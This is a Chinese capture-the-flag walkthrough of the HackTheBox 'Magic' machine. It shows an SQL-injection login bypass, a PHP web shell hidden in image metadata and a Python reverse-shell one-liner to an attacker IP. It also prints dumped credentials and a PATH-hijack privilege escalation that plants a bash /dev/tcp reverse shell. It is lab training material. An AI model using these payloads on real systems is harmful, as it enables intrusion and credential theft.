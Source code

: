 ```yaml
---
title: HackTheBox-Magic
date: 2025-4-3 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```






## nmap

![image-20250402171145487](Magic/image-20250402171145487.png)

## dirsearch

![image-20250402171526168](Magic/image-20250402171526168.png)

## 80端口

简单sql注入绕过登录

![image-20250402174635214](Magic/image-20250402174635214.png)

文件只允许上传图片，尝试过后不是前端验证，并且直接传一句话木马也会被识别

![image-20250402174705761](Magic/image-20250402174705761.png)

![image-20250402174820732](Magic/image-20250402174820732.png)

将命令注入正常图片中，生成一个图片马

```shell
exiftool -Comment='<?php system($_REQUEST['cmd']); ?>' sample.png

exiftool poc.jpg -documentname="<?php echo exec(\$_REQUEST['cmd']); ?>"
```

生成的图片马可以成功上传，但是想要让php代码解析就不能以图片格式上传，中间件是apache，可能存在apache解析漏洞，

回到index.php可以看到刚才上传的图片，将文件名改为`shell.php.png`

![image-20250402180902847](Magic/image-20250402180902847.png)

index.php下有图片，可以查看图片的路径，替换为自己上传的文件名即可访问

![image-20250402175104411](Magic/image-20250402175104411.png)

可以命令执行

![image-20250403102239859](Magic/image-20250403102239859.png)

反弹shell

```
10.10.10.185/images/uploads/x.php.png?cmd=python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.16.3",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

![image-20250403111432899](Magic/image-20250403111432899.png)

```
theseus:iamkingtheseus
```

/etc/passwd中也存在用户，但是使用改密码ssh无法连接

该靶机不存在mysql，但是存在mysqldump， mysqldump是对数据库进行备份的一个工具，利用该账号对数据库进行备份，就可以看到数据库中的内容

```
mysqldump -A -u theseus -p  > all_database.sql
```

![image-20250403113338213](Magic/image-20250403113338213.png)

```
admin:Th3s3usW4sK1ng
```

数据库中有admin账号密码，上面bd.php5中的username是`theseus`，这个密码应该就是theseus的密码,利用改密码成功切换到theseus用户

![image-20250403140649661](Magic/image-20250403140649661.png)

## 提权

查看有suid权限的文件，其中有一个/bin/sysinfo，运行后会打印系统信息

![image-20250403142053598](Magic/image-20250403142053598.png)

查看该进程调用的系统库，调用了fdisk这个文件，提权思路就是写一个反弹shell的fdisk让sysinfo来以root权限调用

![image-20250403142255249](Magic/image-20250403142255249.png)

```shell
theseus@magic:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.16.3/4444 0>&1' > fdisk

theseus@magic:/dev/shm$ chmod +x fdisk

theseus@magic:/dev/shm$ export PATH=$PATH:/dev/shm

theseus@magic:/dev/shm$ sysinfo
```

![image-20250403143522212](Magic/image-20250403143522212.png)